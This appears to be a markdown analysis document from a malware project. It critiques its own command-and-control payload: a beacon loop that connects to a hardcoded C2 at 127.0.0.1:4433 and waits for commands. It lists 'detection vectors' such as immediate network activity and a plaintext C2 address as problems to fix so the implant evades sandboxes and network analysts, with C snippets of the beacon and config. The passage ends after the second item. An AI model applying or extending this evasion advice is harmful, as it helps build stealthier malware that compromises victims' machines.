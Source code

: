 # 🔍 Payload Behavior Analysis

## Current Execution Flow

### What Happens When Payload Runs:

```
1. Start → Immediate network initialization
2. Connect to hardcoded C2 (127.0.0.1:4433)
3. Retry 10 times with predictable delays
4. Enter command loop
5. Wait for commands indefinitely
```

---

## 🚨 MAJOR DETECTION VECTORS FOUND

### 1. **Immediate Network Activity** 🔴 CRITICAL
**Location:** `main.c` lines 54-75

**Problem:**
```c
// BAD: Connects immediately on startup
while (retry_count < max_retries) {
    int sock = socket_create();      // Instant network activity
    socket_connect(sock, c2_host, c2_port);  // Obvious beacon
```

**Why Bad:**
- Sandboxes detect immediate network connections
- No legitimate software connects this fast
- Obvious malware behavior

---

### 2. **Hardcoded C2 Address** 🔴 CRITICAL
**Location:** `config.h` line 16, `main.c` line 50

**Problem:**
```c
#define SERVER_HOST "127.0.0.1"  // ❌ Plain text in binary!
const char* c2_host = SERVER_HOST;  // ❌ Easily found with strings
```

**Why Bad:**
- Visible with `strings` command
- Network analysts can block IP immediately
- No obfuscation

---
